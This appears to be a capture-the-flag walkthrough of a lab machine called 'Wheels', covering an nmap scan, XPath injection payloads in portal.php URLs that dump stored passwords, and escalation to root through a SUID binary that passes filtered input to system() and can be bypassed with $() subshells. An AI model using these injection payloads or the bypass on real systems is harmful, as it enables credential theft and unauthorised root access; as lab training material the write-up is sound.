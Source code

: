 # Wheels

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.202
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 11:18 +08
Nmap scan report for 192.168.157.202
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We can proxy traffic through Burpsuite.&#x20;

### Web Enum --> XPath Injection

The website is for a car repair service:

<figure><img src="../../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

There's an employee portal and a register page. When I try to register a user and access the portal, we are denied access. I tried to brute force the admin credentials, but they don't work.

At the bottom of the page, we can find an email:

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

I tried to register an `administrator` user with this email, and it worked in showing us the Employee Portal.&#x20;

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

If we submit a query, we are returned information in this manner:

<pre class="language-markup"><code class="lang-markup"><strong>&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
</strong>	&#x3C;td>1&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>bob&#x3C;/b>&#x3C;/td>

&#x3C;/tr>         

&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
	&#x3C;td>2&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>alice&#x3C;/b>&#x3C;/td>

&#x3C;/tr>         

&#x3C;tr height="40" bgcolor="#c8dbde" align="center">
	&#x3C;td>3&#x3C;/td>
	&#x3C;td width="200">&#x3C;b>john&#x3C;/b>&#x3C;/td>

&#x3C;/tr>
</code></pre>

I tried to append a `'` character to the query, and received an XML error:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

We can try XPath injection since it seems to load `xpath()`. I tested all forms of XPath Injection and tried to dump passwords, and eventually this payload worked:

```
http://192.168.157.202/portal.php?work=car%27)]%20|%20//password%00&action=search
```

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

I also found some users when testing payloads:

```
http://192.168.157.202/portal.php?work=car%27)%20or%201=1%20or%20(%27&action=search
```

<figure><img src="../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

The first password works for `bob`:

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Arbitrary Read

I searched for SUID binaries and the first result stood out:

{% code overflow="wrap" %}
```
bob@wheels:~$ find / -perm -u=s -type f 2>/dev/null
/opt/get-list

bob@wheels:~$ file /opt/get-list
/opt/get-list: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a037b8d92b88ad94e965feeeddd13c03f924f0a7, for GNU/Linux 3.2.0, not stripped

bob@wheels:~$ /opt/get-list


Which List do you want to open? [customers/employees]: employees
Opening File....

bob
alice
john
dan
alex
selene
```
{% endcode %}

I used `ltrace` to see what calls were being made.&#x20;

```
bob@wheels:~$ ltrace /opt/get-list
puts("\n"

)                                                             = 2
printf("Which List do you want to open? "...)                          = 55
fgets(Which List do you want to open? [customers/employees]: customers
"customers\n", 100, 0x7f394d6c3980)                              = 0x7ffeb9de0730
strchr("customers\n", ';')                                             = nil
strchr("customers\n", '|')                                             = nil
strchr("customers\n", '&')                                             = nil
strstr("customers\n", "customers")                                     = "customers\n"
puts("Opening File....\n"Opening File....

)                                             = 18
snprintf("/bin/cat /root/details/customers"..., 200, "/bin/cat /root/details/%s", "customers\n") = 33
open("/dev/null", 1025, 027167403201)                                  = 3
dup(2, 0x5597d7042088, 1025, 0)                                        = 4
dup2(3, 2)                                                             = 2
geteuid()                                                              = 1000
setuid(1000)                                                           = 0
system("/bin/cat /root/details/customers"... <no return ...>
```

It uses seems that our string is directly passed into a `cat` command. There's also a check for special characters before executing. This doesn't protect against subshells using `$()`, and it only checks for whether `customers` or `employees` are substrings within the string we submit.

This is easily exploitable for a `root` shell:

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

